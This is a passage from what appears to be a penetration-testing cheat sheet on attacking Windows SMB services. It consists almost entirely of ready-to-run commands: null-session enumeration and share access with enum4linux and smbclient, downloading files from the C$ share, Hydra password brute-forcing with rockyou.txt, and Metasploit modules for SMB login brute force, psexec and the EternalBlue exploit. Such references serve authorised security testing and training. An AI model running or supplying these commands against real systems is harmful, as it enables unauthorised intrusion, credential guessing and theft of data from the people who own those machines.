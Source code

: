 ```bash
# 2 - If “<20>” exists, it means Null Session could be exploited. Utilize the following command to get more details:
enum4linux <TARGET_IP>
# 3 - If confirmed that Null Session exists, you can remotely list all share of the target:
smbclient -L WORKGROUP -I <TARGET_IP> -N -U ""
# 4 - You also can connect the remote server by applying the following command:
smbclient \\\\<TARGET_IP>\\c$ -N -U ""
# 5 - Download those files stored on the share drive:
smb: \> get file_shared.txt
```

#### Hydra
```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz

hydra -l admin -P /usr/share/wordlists/rockyou.txt <TARGET_IP> smb
```
We can use a wordlist generator tools (how Cewl), to create custom wordlists.

#### Metasploit
```bash
# METASPLOIT Starting
msfconsole
msfconsole -q

# METASPLOIT SMB
use auxiliary/scanner/smb/smb_version
use auxiliary/scanner/smb/smb_enumusers
use auxiliary/scanner/smb/smb_enumshares
use auxiliary/scanner/smb/smb_login
use auxiliary/scanner/smb/pipe_auditor

## set options depends on the selected module
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set SMBUser <USER>
set RHOSTS <TARGET_IP>
exploit

# Kali Linux terminal
searchsploit "Microsoft Windows SMB" | grep -e "Metasploit"

#Exploit
use exploit/windows/smb/psexec
use exploit/windows/smb/ms17_010_eternalblue

set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false

set SMBUser <USER>
set SMBPass <PW>
```
